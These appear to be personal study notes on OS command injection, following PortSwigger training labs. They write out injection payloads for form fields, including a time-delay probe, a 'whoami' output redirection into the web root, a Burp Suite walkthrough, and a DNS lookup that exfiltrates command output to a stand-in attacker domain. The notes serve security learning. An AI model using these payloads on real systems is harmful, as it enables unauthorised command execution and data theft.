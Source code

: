 
- some useful commands 
	- ![[Pasted image 20230904012200.png]]

# simple case
- ![[Pasted image 20230904011952.png]]
- just try to use one of them in the vuln filed
- use # at the end of submitted data, to comment what ever after the # 


# # with time delays
- & sleep 10 # 


# Lab: Blind OS [command injection](https://portswigger.net/web-security/os-command-injection) with output redirection
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to:
    
    `email=||whoami>/var/www/images/output.txt||`
3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the `filename` parameter, changing the value to the name of the file you specified for the output of the injected command:
    
    `filename=output.txt`
5. Observe that the response contains the output from the injected command.


- what if u have no access to the files u try to output redirection ? 
# Lab: Blind OS command injection with out-of-band interaction
- `` & nslookup urdomain.com #``


# Lab: Blind OS [command injection](https://portswigger.net/web-security/os-command-injection) with out-of-band data exfiltration
- ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``